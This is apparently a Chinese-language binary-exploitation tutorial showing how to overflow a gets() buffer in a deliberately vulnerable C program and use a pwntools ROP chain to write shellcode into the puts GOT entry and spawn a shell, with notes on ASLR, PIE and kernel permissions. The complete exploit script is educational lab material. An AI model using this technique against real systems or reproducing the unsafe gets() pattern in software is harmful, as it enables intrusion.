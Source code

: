 ```yaml
---
title: 'ROP 和 Shellcode'
date: '2023-08-29'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '通过控制 `gets` 的写入位置，把 shellcode 放在预设的地方。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。'
authors: ['default']
---
```


<details>
  <summary>Table of Contents</summary>
  <TOCInline toc={props.toc} />
</details>

## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[20];

  puts("Give me the input");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 利用

老规矩。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

我们可以再次调用 `gets` 函数，不过这次要让 `gets` 函数把接收到的数据写入程序的某个区域，一个既可读又可写的地方，例如 GOT 表就是一个不错的选择。我们只要把 GOT 表里面一个条目的地址传给 `gets` 函数，`gets` 函数就会把我们传进去的 shellcode 写入这个 GOT 条目的位置，这样我们就知道 shellcode 被准确写入了什么位置。最后我们把 `gets` 函数的返回地址设为 shellcode 的地址，这样返回后就可以完美执行我们刚才输入的 shellcode 了。

通过控制 `gets` 的写入位置，我们就可以随心所欲地把 shellcode 放在任意位置，然后执行它。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 0x03 64-bit

自行尝试 :D

LINK

## 0x04 ASLR

这种方法不用担心 ASLR 的问题，因为我们既没有使用栈，也没有直接调用 libc 函数，只是使用了 ROP。

真正的问题是如果启用了 PIE，由于不知道 PLT 的位置，就无法调用 `gets`，也不知道 GOT 表的位置，无法写入。

## 0x05 潜在问题

由于没有 NX 保护，GOT 表默认的权限通常是可执行的。如果你使用较新版本的内核，例如 `5.9.0`，默认会移除可执行权限。

因此，如果你利用失败，可以使用 `uname -r` 查看内核版本，检查是否 `≥5.9.0`，如果是，那你就需要找到另一个 RWX 权限的区域放置 shellcode（如果这个区域存在）。

不同的内核和保护需要针对的调整利用技术。

